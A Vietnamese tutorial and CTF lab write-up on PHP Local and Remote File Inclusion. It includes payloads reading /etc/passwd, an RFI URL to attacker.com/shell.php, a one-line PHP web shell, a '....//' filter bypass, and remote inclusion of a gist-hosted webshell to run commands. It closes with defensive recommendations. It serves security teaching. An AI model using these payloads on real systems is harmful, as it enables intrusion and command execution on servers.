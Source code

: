 # File Inclusion
>Tên tài liệu: File Inclusion<br>
Thực hiện: Phạm Văn Tam <br>
Cập nhật lần cuối: 13/10/2024
>
# Mục Lục
[1. Khái niệm và các loại ](#p1) <br>
[2. Local File Inclusion (LFI)](#p2) <br>
[3. Remote File Inclusion (RFI)](#p3) <br>
[4. Lab ](#p4) <br>
[5.Recommendations](#p5)
# Nội dung
<a id="p1"></a>
## 1. Khái niệm và các loại
Inclusion là tính năng của ngôn ngữ lập trình giúp lập trình viên dễ dàng quản lý, tổ chức và tái sử dụng mã nguồn. <br>
File Inclusion là một lỗ hổng bảo mật trong ứng dụng web, xảy ra khi ứng dụng cho phép người dùng chỉ định tập tin (file) sẽ được nhúng vào hoặc thực thi bởi máy chủ. <br>
Có hai loại phổ biến: <br>
- Local File Inclusion (LFI)
- Remote File Inclusion (RFI) <br>
Các hàm inclusion nhận tham số truyền vào là một đường dẫn tới File hoặc một URL tùy theo ngôn ngữ lập trình <br>
File Inclusion là biến thể của Path Traversal
<a id="p2"></a>
## 2. Local File Inclusion (LFI)
Local File Inclusion (LFI) là lỗ hổng cho phép kẻ tấn công đưa nội dung của một tập tin có sẵn trên máy chủ vào ứng dụng. Khi ứng dụng không kiểm tra kỹ đầu vào, hacker có thể lợi dụng để đọc các tập tin nhạy cảm như /etc/passwd trên hệ thống Linux, hoặc các file cấu hình chứa thông tin quan trọng. <br>
Kịch bản phổ biến là ứng dụng dùng hàm include, require, include_once hoặc require_once trong PHP để nhúng file theo đường dẫn mà người dùng cung cấp. Nếu không xử lý đầu vào cẩn thận, hacker có thể thay đổi đường dẫn này để truy cập tập tin nhạy cảm. <br>
Ví dụ: <br>
URL sau: <br>
```
http://testphp.com/index.php?page=about.php
```
Nếu không kiểm tra kỹ đầu vào page, hacker có thể chỉnh sửa URL để: <br>
```
http://testphp.com/index.php?page=/etc/passwd
```
<a id="p3"></a>
## 3. Remote File Inclusion (RFI)
Remote File Inclusion (RFI) là lỗ hổng cho phép hacker nhúng và thực thi một tập tin từ một máy chủ khác. Điều này có thể dẫn đến việc thực thi mã độc hại trên máy chủ đích. RFI nguy hiểm hơn LFI vì nó cho phép hacker đưa mã độc vào từ xa và có thể chiếm quyền điều khiển máy chủ. <br>
Lỗ hổng này thường xảy ra khi ứng dụng web chấp nhận URL từ xa làm tham số và sử dụng hàm `include` hoặc `require` mà không kiểm tra kỹ đầu vào. <br>
Ví dụ : <br>
URL sau : <br>
```
http://testphp.com/index.php?page=http://attacker.com/shell.php
```
Tệp shell.php có nội dung : `<?php system($_GET['cmd']); ?>` <br>
Từ đó tệp shell.php sẽ được tải về và thực thi trên server. <br>
Lưu ý: RFI sẽ không hoạt động nếu có prefix đứng trước tham số URL
```
<?php
$page = $_GET["page"];
include("module/".$page);
echo $content;
?>
```
Thì module/http://attacker.com/shell.php sẽ không hoạt động <br>
<a id="p4"></a>
## 4. Lab
### 4.1 Learn the Capital 1
Mục tiêu của lab này là truy cập vào trang /admin mà chúng ta không có quyền. <br>
![image](https://github.com/user-attachments/assets/386338c3-6dcb-45f1-b624-df9b050e5c0a) <br>
Trang web hỏi về thủ đô của các nước và đưa ra câu trả lời: <br>
Tiên hành check source code <br>
![image](https://github.com/user-attachments/assets/2cf35f45-ef26-4741-aa64-00e4d5db678a) <br>
Giá trị của biến $page được lấy trực tiếp từ tham số `$_GET['country']` mà không có bất kỳ biện pháp lọc nào. Nếu một kẻ tấn công có thể cung cấp một đường dẫn đến tệp tin mà họ kiểm soát, họ có thể bao gồm và thực thi mã trong tệp tin đó, dẫn đến việc tấn công Local File Inclusion (LFI) hoặc Remote File Inclusion (RFI). <br>
Test thử với `/etc/passwd` : <br>
![image](https://github.com/user-attachments/assets/b4bdfb8f-3730-4fac-bab0-f1a82760668e)
Tiến hành truy cập vào trang admin <br>
![image](https://github.com/user-attachments/assets/f07f5da2-a4a1-46dc-a977-eb08d8b98654)
### 4.2 Learn the Capital 2
Ở lab này anh dev đã code thêm các tính năng bảo mật. Mục tiêu là truy cập trang admin <br>
Tiến hành check source code để xem : <br>
![image](https://github.com/user-attachments/assets/578f5fe9-9ecf-4206-a254-ba23fb053489) <br>
- Loại bỏ http:// và https:// khỏi $page: Điều này nhằm ngăn chặn tấn công kiểu Remote File Inclusion (RFI), bằng cách loại bỏ các URL bên ngoài.
- Loại bỏ các ký tự ../ và .." khỏi $page: Điều này nhằm hạn chế tấn công kiểu Local File Inclusion (LFI) bằng cách ngăn kẻ tấn công sử dụng các đường dẫn tương đối để thoát khỏi thư mục hiện tại.<br>
Liệu như này đã đủ an toàn chưa? Câu trả lời là không hihi <br>
Chúng ta có thể bypass như sau:  <br>
```
....//admin.php
```
![image](https://github.com/user-attachments/assets/66f4c4f9-17d6-46d9-99a8-15791cba6a45)
### 4.3 Learn the Capital 3
Lab này nói rằng họ đã tăng cường thêm các biện pháp bảo mật và bây giờ không dễ truy cập trang admin được nũa <br>
![image](https://github.com/user-attachments/assets/8d775505-f5bb-4e06-8b0a-11e0944f109e)
Lab này dùng hàm `strstrs` để kiểm tra biến $page xem biến $page có chứa chuỗi file hay không. Nếu tìm thấy chuỗi file thì nó sẽ báo lỗi và dừng chương trình. <br>
![image](https://github.com/user-attachments/assets/ad385835-58c4-41eb-adb9-8527eb8824da)
Liệu còn cách nào để bypass ở đây.  <br>
![image](https://github.com/user-attachments/assets/5031c845-511c-4ca6-b887-3a213b27c5f5)
### 4.4 Remote File Inclusion
phpinfo() Outputs information about PHP's configuration. Let's find phpinfo file, then create a Webshell for reading the flag file on the system. <br>
![image](https://github.com/user-attachments/assets/442e472e-73e0-47a9-8704-f311fd6329eb) <br>
Là trang web wiki CTF bắt request thì thấy rằng xuất hiện `http://103.97.125.56:30773/?file=1` thì có thể nó bị path traversal và dẫn đến file inclusion. <br>
Tên đề bài là RFI nên chúng ta sễ truyền vào 1 đoạn shell mà nó thực thi ở server khác: <br>
```
https://gist.githubusercontent.com/joswr1ght/22f40787de19d80d110b37fb79ac3985/raw/c871f130a12e97090a08d0ab855c1b7a93ef1150/easy-simple-php-webshell.php
```
Truyền thành công : <br>
![image](https://github.com/user-attachments/assets/7062a004-b1ba-4fc9-ab16-61b92349ef9b)
Tiến hành leak file trên server và lấy flag : <br>
`&cmd=ls`
![image](https://github.com/user-attachments/assets/95de95cc-4dca-4066-b0a4-1aff8c1f3f24)
![image](https://github.com/user-attachments/assets/c88094cc-3751-4d22-8878-78b9be649e8f)
![image](https://github.com/user-attachments/assets/0e63baa5-a5c7-46ee-b8e5-fc55031f7e4f)
<a id="p5"></a>
## 5.Recommendations
- Sử dụng các hàm lọc và kiểm tra đầu vào nghiêm ngặt.
- Hạn chế việc bao gồm các file từ đường dẫn ngoài (tắt allow_url_include trong PHP).
- Áp dụng whitelist để chỉ cho phép truy cập các file hợp lệ đã định trước.
